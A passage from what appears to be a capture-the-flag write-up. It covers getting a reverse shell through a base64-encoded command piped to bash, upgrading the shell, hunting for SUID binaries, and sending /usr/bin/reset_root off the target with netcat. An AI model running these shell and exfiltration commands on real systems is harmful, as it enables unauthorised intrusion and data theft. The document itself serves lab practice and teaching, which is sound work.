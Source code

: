 ```
{encoded_stirng} | base64 -d | bash
```

But I also need to set up a listener as well

```
nc -lnvp 1234
```

Done and now just run the command and I will receive the connection. The thing is I made a mistake at the initiating the connection in the input field which should look like this.
```
echo {encoded_stirng} | base64 -d | bash
```

Boom!!! Got access to the target

# Escalation 

First I have to set up a backdoor for reconnecting in case I accidentally disconnect it
```
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

Now even if I use Ctrl+Z I still can reinitialize using the following command
<img width="516" height="203" alt="Ảnh chụp màn hình 2025-09-18 200033" src="https://github.com/user-attachments/assets/a5279180-b63f-416f-931d-32e220b9c9d6" />

```
stty raw -echo;fg;reset
```
<img width="423" height="114" alt="Screenshot 2025-09-18 200422" src="https://github.com/user-attachments/assets/2babfc2b-7a99-49e6-89cd-50e1e567a8ad" />
Let's find the most vulnerable file which requires finding the binaries with SUID bit:

```
find / -perm -u=s -type f 2>/dev/null
```
<img width="387" height="323" alt="Screenshot 2025-09-18 200653" src="https://github.com/user-attachments/assets/a6a73d45-7fa3-441b-a1d3-fca3de7c5533" />
I notice the `/usr/bin/reset_root` stands out, I have never met one before so I would try my best to exploit this. 

<img width="359" height="48" alt="Screenshot 2025-09-18 200911" src="https://github.com/user-attachments/assets/0a153106-6baa-435d-b5f9-98040567347e" />
But first, I need to bring this file to my host machine to further examine.
On our host
```
nc -lp 9999 > reset_root
```
On the remote server
```
nc -w 3 {ip} 9999 < /usr/bin/reset_root
```
Now there is a tool to find out what is going on with this file called `ltrace`
For someone who do not have `ltrace` and do not know what it is. `ltrace` is a tool for debugging 'tldr' in short. So using this tool to find out what is going on with the binary file.
Granting execution permission for this file
```
chmod +x reset_root
```
<img width="637" height="205" alt="Screenshot 2025-09-18 202831" src="https://github.com/user-attachments/assets/42e27660-b30e-4a55-8b3e-644ceedb1848" />
I know the reason why this file failed to run because I reckon that on that server which does not include these 3 file caused the file to fail.
Therefore, I only need to create those file and attempt to run the binary file again.
```
touch /dev/shm/kHgTFI5G
touch /dev/shm/Zw7bV9U5
touch /tmp/kcMOWewe
```
